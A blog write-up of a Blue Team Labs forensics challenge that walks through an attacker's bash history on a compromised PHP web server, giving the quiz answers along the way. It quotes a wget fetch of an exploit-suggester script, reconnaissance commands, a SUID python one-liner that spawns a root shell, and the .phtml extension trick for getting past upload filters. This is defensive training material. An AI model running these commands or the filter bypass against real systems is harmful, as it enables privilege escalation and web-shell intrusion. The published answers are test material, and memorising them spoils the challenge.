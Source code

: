 ```yaml
---
layout: post
title:  "BTLO | Log Analysis - Privilege Escalation"
date:   2021-10-16 05:36:00
tags: [Security, BlueTeamLabs, Cyber Defense]
style: border
color: primary
description: "Blue Team Labs: Log Analysis - Privilege Escalation Writeup"
---
```


This is my write-up for [Log Analysis - Privilege Escalation](https://blueteamlabs.online/home/challenge/4) on Blue Team Labs.

**P.S: I highly encourage you to try solving the challenges on your own first then check this writeup if you are stuck.**

**Scenario**

>A server with sensitive data was accessed by an attacker and the files were posted on an underground forum. This data was only available to a privileged user, in this case, the ‘root’ account. Responders say ‘www-data’ would be the logged-in user if the server was remotely accessed, and this user doesn’t have access to the data. The developer stated that the server is hosting a PHP-based website and that proper filtering is in place to prevent PHP file uploads to gain malicious code execution. The bash history is provided to you but the recorded commands don’t appear to be related to the attack. Can you find what actually happened?

To solve this challenge we are required to download the task file, extract the zip file using the password provided, and analyze the file. 


## **Q.** What user (other than ‘root’) is present on the server?
**A.** daniel

On most Linux systems non-system users have a folder created for them under the home directory. The nomenclature is as follows:

`/home/usernamehere`

Searching for “home” in this log shows that line 21 contains the username from this server.

```console
...
cd /home
ls
cd /home/daniel/
ls -la
su root
...
```
{: file='bash_history'}

## **Q.** What script did the attacker try to download to the server?
**A.** linux-exploit-suggester.sh

The malicious actor tried to download a malicious script from a GitHub URL using the wget command, in line 32.

```console
...
echo os.system('/bin/bash')
cd /tmp
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
env
ps -aux
...
```
{: file='bash_history'}

## **Q.** What packet analyzer tool did the attacker try to use?
**A.** tcpdump

Previous knowledge of common packet analyzers helps with finding this answer. Line 41 to line 47 shows that the malicious actor attempted to gather information about the host's network connections and common network configuration files.

```console
...
ifconfig -a
cat /etc/network/interfaces
cat /etc/sysconfig/network
cat /etc/resolv.conf
iptables -L
lsof -i
tcpdump
...
```
{: file='bash_history'}

## **Q.** What file extension did the attacker use to bypass the file upload filter implemented by the developer?
**A.** .phtml

Previous knowledge on upload vulnerabilities helps with discerning what's happening here. Unfortunately, we are unable to view the upload allow/deny configurations. That said, common file extensions are found in some commands. Line 63 shows that a .phtml file in the uploads directory under /var/www/html was removed.

A common security feature of web filters is examining a file extension to include or exclude for upload forms. One such extension that is commonly blocked is `.php` due to the nature of potentially enabling a malicious actor to upload a web shell. 

We can't tell for sure but intuitively files with the `.php` extension seem to not be allowed by the upload form. In this case, the malicious actor simply can change the file extension from `.php` to `.phtml` to bypass the exclusions. The `.phtml` file extension can execute PHP code just like a PHP file would but it is often overlooked or mistakenly left out of the exclusion list. The same goes for other PHP file extensions such as: 

- .php3
- .php4
- .php5


```console
...
rm /var/www/html/uploads/x.phtml
```
{: file='bash_history'}

## **Q.** Based on the commands run by the attacker before removing the PHP shell, what misconfiguration was exploited in the ‘python’ binary to gain root-level access? 1- Reverse Shell ; 2- File Upload ; 3- File Write ; 4- SUID ; 5- Library load 
**A.** 4

Python is directly referenced in lines 26, 27, and 62 in what seems like privilege escalation attempts. 

Line 27 shows that python was used to spawn a shell in bin/sh/. 
Line 62 shows that python was used to create a shell. 

There seems to be a SUID permissions misconfiguration on the victim host.

SUID stands for “SetUID”. It is a Linux permissions flag that allows users to run that particular executable as the executable's owner. For example, if a file is owned by root, the program will always run as root, regardless of who started the execution.

This is a common way a malicious actor performs privilege escalation on a system.

```console
./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
{: file='bash_history'}